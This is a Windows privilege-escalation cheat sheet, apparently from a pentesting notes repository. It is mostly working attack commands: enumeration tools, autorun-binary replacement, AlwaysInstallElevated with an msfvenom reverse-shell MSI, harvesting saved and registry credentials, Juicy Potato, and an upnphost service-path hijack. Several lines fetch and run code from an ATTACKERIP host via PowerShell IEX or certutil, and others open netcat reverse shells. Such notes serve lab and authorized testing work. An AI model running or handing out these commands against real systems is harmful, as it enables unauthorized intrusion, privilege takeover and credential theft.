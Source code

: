 ## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/


```
Run all checks while avoiding time-consuming searches:
.\winPEASany.exe quiet cmd fast
winPEAS.exe -a
```
### SeatBelt
```
//system info
SeatBelt.exe system

// user info
SeatBelt.exe user
```

### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```
## Registry exploits

### Autorun

if you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```
 .\winPEASany.exe quiet applicationsinfo
 
 //or use requery
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 
 //and then use accesschk.exe to verify the permissions on each one:
 
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
 

```
 Exploit:
 ```
 copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
 ```

### AlwaysInstallElevated

```
// Use winPEAS to see if both registry values are set:
.\winPEASany.exe quiet windowscreds

// Alternatively, verify the values manually: (both should return 1)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Exploit:
```
// Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

//Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
## Passwords Hunting

### Registries
```
// Use winPEAS to check common password locations:
.\winPEASany.exe quiet filesinfo userinfo

//manual check
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

### Saved Creds
 
.\winPEASany.exe quiet cmd windowscreds
// We can verify this manually using the following command:
cmdkey /list

```
Exploit:
```
//We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```
